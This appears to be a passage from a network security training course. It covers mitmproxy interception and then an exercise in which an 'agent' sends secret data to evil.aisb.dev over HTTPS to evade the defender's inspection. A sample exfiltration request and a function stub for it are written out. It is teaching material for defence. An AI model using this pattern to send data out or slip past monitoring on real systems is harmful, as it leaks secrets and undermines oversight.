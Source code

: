 4. **Observe the results**:
   - Check mitmproxy logs: You should see the log message indicating the request was blocked
   - Check agent logs: The agent should receive the modified responses

#### Summary

In this exercise, you've learned:

1. **Network Analysis**: How to use Wireshark to capture and analyze network traffic
2. **Protocol Layers**: How HTTP rides on top of TCP/IP
3. **Traffic Interception**: Using mitmproxy to intercept and block requests
4. **Security Monitoring**: Building analytics to track blocked threats

**Additional Resources**:

- [Wireshark User Guide](https://www.wireshark.org/docs/wsug_html_chunked/)
- [mitmproxy Documentation](https://docs.mitmproxy.org/stable/)
- [OWASP Proxy Guide](https://owasp.org/www-community/Proxy)



## 3️⃣ HTTPS Interception, Certificate Management and Trust
### Encrypting traffic with HTTPS
Let's switch to the agent's perspective now and implement a way to exfiltrate data securely using HTTPS - this will stop our proxy from being able to block requests, and ensure the communication is encrypted.

In the previous exercises, the defender could easily inspect your HTTP traffic using Wireshark and see exactly what data you were exfiltrating. The communication looked something like this in Wireshark:

```
GET /exfiltrate?data=some_secret_data HTTP/1.1
Host: evil.aisb.dev
User-Agent: python-requests/2.32.4
...
```

To evade this detection, we can switch to HTTPS, which encrypts the communication channel.

<details><summary>Background: How HTTPS Protects Communication</summary></details>

### Exercise 4: Implement make_evil_request_https()

> **Difficulty**: 🔴⚪⚪⚪⚪
> **Importance**: 🔵🔵🔵⚪⚪
>
> You should spend up to ~5 minutes on this exercise.

Modify your request function to use HTTPS instead of HTTP. This simulates an attacker trying to evade network inspection. The code below belongs in the **`w1d2_answers_agent.py`** file.


```python


def make_evil_request_https(secret_data: str) -> Optional[str]:
    """
    Send a GET request over HTTPS to evil.aisb.dev with secret data.

    Args:
        secret_data: The secret information to exfiltrate

    Returns:
        The response text from the server, or None if the request fails
    """
    # TODO: Implement the function to:
    #   1. Make a GET request to https://evil.aisb.dev/exfiltrate?data=secret_data
    #   2. Return the response text if successful (status 200), None otherwise
```